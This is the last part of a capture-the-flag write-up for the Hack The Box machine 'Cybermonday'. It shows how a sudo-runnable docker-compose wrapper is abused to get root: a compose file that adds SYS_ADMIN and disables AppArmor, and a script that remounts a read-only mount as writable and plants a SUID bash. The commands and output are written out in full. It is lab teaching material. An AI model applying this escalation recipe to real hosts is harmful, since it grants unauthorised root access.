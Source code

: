 # Cybermonday - Composing Root Access

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[**Composing Root Access**](/writeups/machines/htb-cybermonday/7-composing-root-access)

Okay, I know that getting to user was a slog, but getting root is much easier, I promise. Look this is the last part left. After doing our initial enumeration again, we don't find much that could be exploited except for a [[python|Python]] script called `secure_compose.py`. We're able to read the file so let's view it and see what's going on.
```python
#!/usr/bin/python3
import sys, yaml, os, random, string, shutil, subprocess, signal

def get_user():
    return os.environ.get("SUDO...
```

It looks like this script takes a [[docker|docker-compose.yml]] file from a user, builds any images in it, and runs the containers. What makes it secure is the fact that you're unable to create privileged containers, and all file mounts are restricted to specific places and must be read only. It also checks you're not cheating the file location using a Symlink. Lucky for us this is all it checks, and Docker has a number of features that let us abuse this script to gain root. In our case, we're simply going to create a [[suid|SUID]] `bash` executable that will let us gain a root shell. But how are we going to do that if all our mounts are read only? Well remount them as read/write of course.

First we need to prepare a `docker-compose.yml`, `Dockerfile`, and `run.sh` file for our container. In theory you could do everything in the `docker-compose` but we're going to keep each part separate and simple so it's clear what's happening. In order to remount a directory, we need to give our container the `SYS_ADMIN` capability and add the security option `apparmor:unconfined`. As for the image to use, we'll go back to our trusty `cybermonday_api` since we know the host is already running it. As the script copies our `docker-compose` file to a temporary folder, we'll need to specify the location of the `Dockerfile`.

So our `docker-compose.yml` should look like:
```yaml
version: '3'
services:
  exploit:
    build: /home/john/docker
    volumes:
      - /home/john/docker:/mnt:ro
    cap_add:
      - SYS_ADMIN
    security_opt:
      - apparmor:unconfined
```

Our `Dockerfile` should look like:
```dockerfile
FROM cybermonday_api:latest
COPY run.sh /opt/run.sh
CMD /bin/sh /opt/run.sh
```

And finally for our script we'll run:
```bash
mount -o remount,rw /mnt
cp /bin/bash /mnt/bash
chown root:root /mnt/bash
chmod 4777 /mnt/bash
```

Upload these all to a folder called `docker` in the home directory for `john`. It's easier to keep track of everything that way and we can just delete the folder to clean up once we're done so it's not spoilt for the next person. Once you're got everything ready it's time to run secure compose. 
```bash
sudo /opt/secure_compose.py docker-compose.yml
```

`ls` our directory and we should see a shiny new `bash` executable. Let's try running it now.
```bash
./bash -p

./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found...
```

Oh dear. It looks like the `cybermonday_api` image uses a different version of `glibc`. Not to worry, there is one place where we know that we have a working copy of `bash`; the host itself. Let's change our `run.sh` script slightly.
```bash
mount -o remount,rw /mnt
chown root:root /mnt/bash
chmod 4777 /mnt/bash
```

Then we just copy `bash` into our `docker` directory, and run the `secure_compose` script again.
```bash
cp /bin/bash ~/docker
sudo /opt/secure_compose.py docker-compose.yml
./bash -p

bash-5.1# whoami
root
```

Copy the root flag from `/root/root.txt` and delete the `~/docker` directory, then celebrate that you've finished this machine.